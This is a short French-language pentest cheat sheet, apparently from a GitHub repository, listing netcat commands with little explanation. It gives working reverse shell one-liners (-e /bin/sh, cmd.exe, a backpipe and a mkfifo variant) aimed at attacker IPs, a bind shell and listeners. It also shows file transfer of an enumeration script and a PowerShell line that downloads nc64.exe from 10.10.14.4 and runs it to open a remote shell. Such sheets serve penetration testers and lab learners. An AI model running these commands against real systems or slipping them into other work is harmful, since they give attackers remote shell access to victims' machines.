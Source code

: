 # netcat

## reverseshell

Notes : selon les versions `-c` remplace `-e`

```sh
nc 10.0.0.1 1234 -e /bin/sh
nc 10.0.0.1 1234 -e cmd.exe
nc -e /bin/sh 10.0.0.1 1234
```

## listener

```sh
nc -nvlp 443
```

## file transfert

alice:

```sh
nc -lnvp 10443 < lse.sh
```

bob:

```sh
nc IP 10443 > lse.sh
```

## bind shell

```sh
nc -l -p <port> -e /bin/bash
```

## sans options

victime

```sh
mknod /tmp/backpipe p 
/bin/sh 0</tmp/backpipe | nc pentestbox 443 1>/tmp/backpipe
```

## nc traditional: 

```sh
/usr/bin/nc.traditional
```

## Windows

```powershell
powershell -c “iwr http://10.10.14.4:8000/nc64.exe -outfile c:\temp/bouf.exe”
c:\temp\nc64.exe 10.10.14.4 10443 -e powershell
```

## mkfifo

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
